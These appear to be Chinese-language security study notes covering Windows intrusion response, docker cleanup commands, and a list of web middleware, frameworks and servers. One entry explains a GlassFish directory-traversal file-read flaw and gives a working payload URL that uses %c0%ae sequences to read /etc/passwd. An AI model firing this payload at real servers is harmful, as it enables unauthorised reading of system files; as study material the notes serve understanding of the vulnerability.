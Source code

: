 - 【应急响应】windows入侵排查思路：[https://mp.weixin.qq.com/s/17L_fQJ1qjSvt8UL7VSemg](https://mp.weixin.qq.com/s/17L_fQJ1qjSvt8UL7VSemg)

- ```
  查看应硬盘消耗：
  docker system df
  清理docker全部未在使用的东西：
  docker system prune -a
  ```

- Web中间件：

- JBOSS <—> Tomcat

- Weblogic —> Oracle

- WebSphere —> IBM

- Glassfish —> Oracle：任意文件读取

  ```
  java语言中会把%c0%ae解析为\uC0AE，最后转义为ASCCII字符的.（点）。利用%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/来向上跳转，达到目录穿越、任意文件读取的效果。
  payload:
  https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
  ```

- Web 框架：Struts2、Spring

- Web 服务器：IIS、Apache、Nginx、lighttpd

